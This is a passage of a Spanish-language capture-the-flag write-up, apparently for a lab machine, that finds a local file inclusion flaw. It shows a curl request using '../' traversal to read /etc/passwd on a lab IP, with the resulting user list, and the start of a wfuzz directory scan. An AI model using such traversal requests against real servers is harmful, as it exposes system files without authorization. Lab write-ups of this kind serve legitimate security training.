 Si vemos la `url` esta apuntando a un recurso `=index.php` podemos ver si esto es vulnerable a `LFI` 

Ahora que sabemos que si haremos todo con `curl` para mas comodo 

![](/assets/images/vh-writeup-acua/Web6.png)

Algo interesante a saber es que si haces una peticion con  `curl` de primeras no va a funcionar por que necesitas la `cookie`

![](/assets/images/vh-writeup-acua/Web7.png)

```bash
❯ curl -s "http://192.168.1.84/home.php?showcase=../../../../etc/passwd" -b PHPSESSID=lajkn6k3qshls8g5qepomldgo7 | grep sh
root:x:0:0:root:/root:/bin/bash
aqua:x:1000:1000:aqua,,,:/home/aqua:/bin/bash
megumin:x:1001:1001:,,,:/var/www/html/deployment:/bin/bash
```

Y bueno tenemos 3 usuarios `root:aqua:megumin` que tienen una `bash` antes de seguir enumerando gracias al `LFI` podemos hacer `Fuzzing` para si encontramos algo util `.php`

Pero solo encontramos esto lo unico importante fue el login

```python
❯ wfuzz -c --hc=404 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt -u http://192.168.1.84/FUZZ.php
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.84/FUZZ.php
Total requests: 30000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                        
=====================================================================

```
